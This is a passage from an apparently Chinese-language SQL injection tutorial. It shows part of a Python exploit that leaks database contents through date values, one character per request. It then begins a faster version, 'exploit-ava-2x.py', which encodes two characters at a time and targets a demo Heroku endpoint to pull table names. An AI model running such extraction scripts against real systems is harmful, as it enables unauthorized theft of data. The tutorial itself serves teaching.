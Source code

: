 ``` python
      result += chr(int(diff/86400))
      print(result)
  else:
    print('error')
    break

print(f"time: {time.time() - start}s")
```

跑起來的結果會是這樣：

![](/img/posts/huli/sql-injection-in-action/p5.png)

一次 leak 出一個字元，花了大約 40 秒得到完整結果。

### 加速：一次偷渡兩個字

既然都可以把資料換成數字偷偷塞在日期裡面了，何不一次偷渡兩個字呢？為了不讓數字衝突而且好算，第二個字需要再乘以 128。

程式碼如下：

``` python
# exploit-ava-2x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
```